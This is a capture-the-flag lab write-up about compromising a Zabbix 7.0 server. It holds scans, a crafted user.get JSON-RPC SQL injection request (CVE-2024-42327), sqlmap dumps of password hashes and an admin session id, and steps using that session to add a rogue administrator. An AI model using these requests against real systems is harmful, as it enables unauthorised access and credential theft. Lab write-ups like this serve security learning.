# Initial Enumeration

So far we are given some information about the challenge:

- An entry point IP
- The machine is Linux based
- Entry point credentials to Zabbix



Without further do i will start by getting a clear picture of the running services on the first thousand UDP services:

```
└─# nmap -sU -F 10.10.11.50        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-06 12:04 CET
Stats: 0:00:40 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 40.00% done; ETC: 12:06 (0:01:00 remaining)
Stats: 0:01:21 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 79.90% done; ETC: 12:06 (0:00:20 remaining)
Nmap scan report for 10.10.11.50
Host is up (0.037s latency).
Not shown: 99 closed udp ports (port-unreach)
PORT   STATE         SERVICE
68/udp open|filtered dhcpc

Nmap done: 1 IP address (1 host up) scanned in 111.39 seconds

```

Ok, not much here and what about all the 65k(ish) ports over the TCP protocoll?

```
PORT      STATE SERVICE             REASON         VERSION
22/tcp    open  ssh                 syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp    open  http                syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
10050/tcp open  tcpwrapped          syn-ack ttl 63
10051/tcp open  ssl/zabbix-trapper? syn-ack ttl 63
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 2.6.32 (95%), Linux 4.15 - 5.8 (95%), Linux 5.0 - 5.4 (95%), Linux 5.0 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (94%), Linux 3.2 (94%), Linux 5.3 - 5.4 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), HP P2000 G3 NAS device (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=12/6%OT=22%CT=%CU=36383%PV=Y%DS=2%DC=T%G=N%TM=6752DB65%P=x86_64-pc-linux-gnu)
SEQ(SP=FE%GCD=1%ISR=110%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M550ST11NW7%O2=M550ST11NW7%O3=M550NNT11NW7%O4=M550ST11NW7%O5=M550ST11NW7%O6=M550ST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M550NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 47.840 days (since Sat Oct 19 17:00:19 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=254 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   28.76 ms 10.10.14.1
2   28.84 ms 10.10.11.50

```

As guesses there is not much than Zabbix and it's protocols, so i guess that will be our way in!

# HTTP

We know that the website it is about Zabbix, but I want to see what can I footprint via Whatweb:

```
└─# whatweb http://10.10.11.50/zabbix/
http://10.10.11.50/zabbix/ [200 OK] Apache[2.4.52], Cookies[zbx_session], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], HttpOnly[zbx_session], IP[10.10.11.50], Meta-Author[Zabbix SIA], PasswordField[password], Script, Title[Unrested: Zabbix], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=Edge], X-XSS-Protection[1; mode=block]

```

And are there any hidden stuff left behind?

```
Target: http://10.10.11.50/

[12:12:10] Starting: 
[12:12:12] 403 -  276B  - /.ht_wsr.txt
[12:12:12] 403 -  276B  - /.htaccess.bak1
[12:12:12] 403 -  276B  - /.htaccess.sample
[12:12:12] 403 -  276B  - /.htaccess.orig
[12:12:12] 403 -  276B  - /.htaccess.save
[12:12:12] 403 -  276B  - /.htaccess_extra
[12:12:12] 403 -  276B  - /.htaccess_orig
[12:12:12] 403 -  276B  - /.htaccess_sc
[12:12:12] 403 -  276B  - /.htaccessBAK
[12:12:12] 403 -  276B  - /.htaccessOLD
[12:12:12] 403 -  276B  - /.htaccessOLD2
[12:12:12] 403 -  276B  - /.html
[12:12:12] 403 -  276B  - /.htm
[12:12:12] 403 -  276B  - /.htpasswds
[12:12:12] 403 -  276B  - /.htpasswd_test
[12:12:12] 403 -  276B  - /.httr-oauth
[12:12:13] 403 -  276B  - /.php
[12:12:38] 403 -  276B  - /server-status/
[12:12:38] 403 -  276B  - /server-status
[12:12:45] 200 -    1KB - /zabbix/

```

Ok, nothing! And what about possible other subdomains?



Ok nothing again, I will move on and try to attack the Zabbix server and maybe get a foothold?

# Attacking Zabbix

Now I will use "Matthew's" credentials to login to Zabbix and I can seet the version should be the **7.0**?



Now are there any good exploit available for this version? 

https://github.com/advisories/GHSA-gx59-7g62-6xhg

And specifically there should be a POC here... https://github.com/compr00t/CVE-2024-42327

Apparently from the Zabbix official article it targets users with API keys with a SQLi:



And if I look seems like my user have no API keys?



Not sure if it's needed for the attack as it mentions users who have access to the API only but I have created it anyway...



Now I will fireup Burpsuite and find a valid request. Here can we see some exaples on how to work with the API, from getting a token to requesting more stuff.. https://sbcode.net/zabbix/zabbix-api-examples/

And we start by getting a token via the login function:



Now we can use the token to perform requests to the backend... If we try to get the hosts we get nothing and this is true as no hosts are added to the fronted:



Now here I had to check the API and ask around and apparently it was failing because our user have very limited permissions on the API and this means that we have to narrow down our query to only the users we have access to reach via editable option must be true. Knowing this little trick allows us to use the exploit from the github page but we must edit it a bit to make it work.

```
POST /zabbix/api_jsonrpc.php HTTP/1.1
Host: 10.10.11.50
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Content-Type: application/json
Content-Length: 255

{
  "jsonrpc": "2.0",
  "method": "user.get",
  "params": {
    "selectRole": ["roleid", "name", "readonly *"],
"editable": true
  },
  "id": 1,
  "auth": "d949f7041ec7bb20567d11866ca1eda4b5aed96a578c0bcb040af5d4adb4cc47"
}

```



Now if we send this to SQLMap we can see the list of DBses.



Now the query will take forever and I will try to grab only what i feel is interesting and the users table indeed is...



Same here to spare some time I will get only the username and password columns from the users table.



After 10 min we have our list:

```
[14:02:37] [INFO] retrieved: matthew
Database: zabbix
Table: users
[3 entries]
+----------+--------------------------------------------------------------+
| username | passwd                                                       |
+----------+--------------------------------------------------------------+
| guest    | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |
| Admin    | $2y$10$L8UqvYPqu6d7c8NeChnxWe1.w6ycyBERr8UgeUYh.3AO7ps3zer2a |
| matthew  | $2y$10$e2IsM6YkVvyLX43W5CVhxeA46ChWOUNRzSdIyVzKhRTK00eGq4SwS |
+----------+--------------------------------------------------------------+

[14:03:03] [INFO] table 'zabbix.users' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.11.50/dump/zabbix/users.csv'
[14:03:03] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.11.50'

[*] ending @ 14:03:03 /2024-12-06/

```

Now I will try to get to the Admin as the other 2 are not interesting so far... Unfortunately it is taking a lot so I guess we need to find the sessionid instead of the password?

And asking to chatgpt we can see it:



Now we can use again SQLMAP to target this on instead... And we identified 2 potential columns..



We know there are 3 users(Matthew, Admin & Guest) obviously it's Admin I need but It get's tricky as if we want to filter for Admin we need to know if it is Id 1 or 2 as 3 is Matthew and we know it so far.

```
[14:18:50] [WARNING] no clear password(s) found                                                                                                                                   
Database: zabbix
Table: sessions
[1 entry]
+----------------------------------+
| sessionid                        |
+----------------------------------+
| cd034b81b4723d05d09b9c22b3a59a9e |
+----------------------------------+


```

This one must be the Admin? As both guest and matthew are not connected at all right now, so Can I use this to maybe get to the admin?



Indeed now it works as if I ommit the option to get only the reachable elements then we are fine! Now I will try to use this to add another user to the Admins so I do not have to play around much with API functions or edit the password of admin.



Indeed now the CLI works as well I will try to add a new user so far to SuperAdmins.

```
✓ Created user 'yovecio' (4).
> show_users
╭────────┬──────────┬─────────┬───────────────┬────────────╮
│ UserID │ Username │ Name    │ Surname       │ Role       │
├────────┼──────────┼─────────┼───────────────┼────────────┤
│ 1      │ Admin    │ Zabbix  │ Administrator │ Superadmin │
├────────┼──────────┼─────────┼───────────────┼────────────┤
│ 2      │ guest    │         │               │ Guest      │
├────────┼──────────┼─────────┼───────────────┼────────────┤
│ 3      │ matthew  │ Matthew │ Smith         │ User       │
├────────┼──────────┼─────────┼───────────────┼────────────┤
│ 4      │ yovecio  │         │               │ User       │
╰────────┴──────────┴─────────┴───────────────┴────────────╯

>
> add_user_to_usergroup yovecio 7
      Added Users       
╭────────────┬─────────╮
│ Usergroups │ Users   │
├────────────┼─────────┤
│ 7          │ yovecio │
╰────────────┴─────────╯
✓ Added users to user groups.
> show_usergroups
╭────┬───────────────────────────┬────────────┬──────────┬────────────────╮
│ ID │ Name                      │ GUI Access │ Status   │ Users          │
├────┼───────────────────────────┼────────────┼──────────┼────────────────┤
│ 9  │ Disabled                  │ Default    │ Disabled │ guest          │
├────┼───────────────────────────┼────────────┼──────────┼────────────────┤
│ 11 │ Enabled debug mode        │ Default    │ Enabled  │                │
├────┼───────────────────────────┼────────────┼──────────┼────────────────┤
│ 8  │ Guests                    │ Default    │ Enabled  │ guest          │
├────┼───────────────────────────┼────────────┼──────────┼────────────────┤
│ 13 │ Internal                  │ Internal   │ Enabled  │ Admin, guest   │
├────┼───────────────────────────┼────────────┼──────────┼────────────────┤
│ 12 │ No access to the frontend │ Disable    │ Enabled  │                │
├────┼───────────────────────────┼────────────┼──────────┼────────────────┤
│ 7  │ Zabbix administrators     │ Default    │ Enabled  │ Admin, yovecio │
╰────┴───────────────────────────┴────────────┴──────────┴────────────────╯
>

```

Now we have our user to usergroups. But seems like that the gui is not showing us more than what we would see with Matthew's user so i will try to use the CLI and look around as Administrator and so far there is only the Zabbix agent on the machine.

```
> show_hosts

╭────────┬───────────────┬────────────────┬───────────────────────┬───────────┬─────────────┬────────┬───────╮
│ HostID │ Name          │ Host groups    │ Templates             │ Agent     │ Maintenance │ Status │ Proxy │
├────────┼───────────────┼────────────────┼───────────────────────┼───────────┼─────────────┼────────┼───────┤
│ 10084  │ Zabbix server │ Zabbix servers │ Linux by Zabbix agent │ Available │ Off         │ On     │       │
│        │               │                │ Zabbix server health  │           │             │        │       │
╰────────┴───────────────┴────────────────┴───────────────────────┴───────────┴─────────────┴────────┴───────╯
>

```

I wonder if we can use this to gain a rce somehow? I remember I used this tool to execute some commands via the Zabbix agent...

https://github.com/Diefunction/ZabbixAPIAbuse

Let's see if we can do it again... Unfortunately the tool requires for a password that I don't have so I guess we really need to do it manually via CLI?

